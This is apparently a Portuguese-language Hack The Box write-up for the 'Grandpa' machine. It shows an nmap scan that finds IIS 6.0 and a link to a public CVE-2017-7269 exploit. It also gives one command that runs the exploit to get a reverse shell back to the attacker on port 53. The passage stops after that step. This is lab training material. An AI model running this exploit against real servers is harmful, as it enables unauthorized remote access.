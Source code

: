 ```yaml
---
title:     "Hack The Box - Grandpa"
tags: [windows,easy]
categories: HackTheBox
---
```


![1.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-grandpa/1.jpg)

## Enumeration

Iniciamos entao nossa enumeracao usando o nmap

```
┌─[✗]─[htb-an4kein☺parrot]─[/htb/grandpa]
└──╼ $sudo nmap -Pn -p- -sV -oN nmap/allports_tcp 10.10.10.14
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-25 18:43 UTC
Stats: 0:01:48 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 95.31% done; ETC: 18:45 (0:00:05 remaining)
Nmap scan report for 10.10.10.14
Host is up (0.072s latency).
Not shown: 65534 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Percebemos que existe apenas a porta 80 aberta, rodando uma servidor WEB na versao bem velha 

Lembro que na maquina [Granny](https://an4kein.github.io/hackthebox/2020/06/24/HTB-Granny/)  explorei uma versao identica, logo vou testar o exploit usado nela pra tentar obter exito.. 

***preference*** https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269/blob/master/iis6%20reverse%20shell

Entao, executamos o exploit apos configurar nossa porta de preferencia para ficar escultando, eu escolhi a 53

`sudo python iis6-cve-2017-7269.py 10.10.10.14 80 10.10.14.36 53`

![2.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-grandpa/2.jpg)

